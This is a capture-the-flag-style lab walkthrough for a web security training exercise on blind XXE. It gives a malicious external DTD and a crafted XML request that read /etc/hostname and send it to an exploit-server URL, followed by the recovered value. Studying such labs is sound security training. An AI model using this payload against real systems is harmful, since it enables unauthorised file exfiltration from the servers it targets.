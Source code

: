 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516213536.png)

### Exploiting blind XXE to exfiltrate data using a malicious external DTD //
```bash

#### This lab has a "Check stock" feature that parses XML input but does not display the result.

#### To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Go to: "Go to exploit server"
File: 

/malicious.dtd

Body:

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-ac6c1f911e617b97c03b0e96012e0099.web-security-academy.net/malicious.dtd?x=%file;'>">
%eval;
%exfiltrate;

Click "Store"
Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-ac6c1f911e617b97c03b0e96012e0099.web-security-academy.net/malicious.dtd"> %xxe; ]>
<stockCheck>1<productId>1</productId>
<storeId>1</storeId></stockCheck>

Go to: "Access log"
Find the outlier IP with the hostname following the "x="

4df981f29bd0

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516215120.png)
